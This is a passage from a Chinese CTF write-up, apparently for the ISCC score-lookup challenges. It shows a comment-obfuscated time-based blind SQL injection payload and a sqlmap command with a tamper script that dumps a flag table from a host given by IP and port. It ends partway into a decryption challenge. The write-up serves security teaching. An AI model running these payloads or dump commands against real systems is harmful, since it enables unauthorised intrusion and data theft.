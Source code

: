 经过注入测试发现存在时间盲注，但是过滤了空格（这里使用注释符绕过）

payload（这里禁用JS之后再进行测试，避免跳转到index.php界面）

```
1'/**/AND/**/(SELECT/**/6/**/FROM/**/(SELECT(SLEEP(5)))B)#
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f8edd315741faf68.png)

知道注入规则之后，直接使用SQLMAP添加tamper脚本进行自动化攻击利用

```
sqlmap -u "http://101.201.126.95:7007/flag.php?name=1&amp;submit=%E6%9F%A5%E8%AF%A2" --tamper=space2comment -D pikachu -T flag -C "flag" --dump
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0186598de2322e19a6.png)

得到MD5进行解密

```
ciphertext：67d4e5f7ee18967a612a5eb8dcda020a

plaintext：sixsixsix

flag`{`sixsixsix`}`
```

### <a class="reference-link" name="%E6%88%90%E7%BB%A9%E6%9F%A5%E8%AF%A2-3"></a>成绩查询-3

[![](https://p1.ssl.qhimg.com/t017acf3aa2bea090be.png)](https://p1.ssl.qhimg.com/t017acf3aa2bea090be.png)

考点：密码算法

题目打开如下

[![](https://p1.ssl.qhimg.com/t01734a2fdc08876b4c.png)](https://p1.ssl.qhimg.com/t01734a2fdc08876b4c.png)

可以看到这是一串base64编码的字符串，但是解码之后是乱码

[![](https://p2.ssl.qhimg.com/t01c6493043ab91fb5e.png)](https://p2.ssl.qhimg.com/t01c6493043ab91fb5e.png)

可以猜测该字符串在base64编码之前可能进行过其它算法的的处理（一般算法加密的数据最后都会进行base64编码存储，避免特殊字符的影响），下来对网站进行敏感信息的收集，发现并未存在其它目录文件的泄露，但是网站主页的源代码里存在注释的源码敏感信息

[![](https://p0.ssl.qhimg.com/t013299025958ac7352.png)](https://p0.ssl.qhimg.com/t013299025958ac7352.png)

从代码可以看出这是一个加密算法，也就验证了主页显示的一串字符串正是由该算法加密处理后的结果。

既然知道了加密算法，就可以很容易的推出解密算法来，但是要想解密这段特殊字符串必须知道密钥key，由于前面的敏感信息收集并没有发现key的泄露，所以根据题目的关联性，回到上一关`ISCC成绩查询_2`（一般上一关flag会是下一关解题的一部分）寻找是否存在key，因为上一关注入得到的flag为`flag`{`sixsixsix`}``，所以猜测key可能取值为`sixsixsix 或 666`，知道密钥key之后剩下的就是由加密算法编写解密算法，解密算法如下：
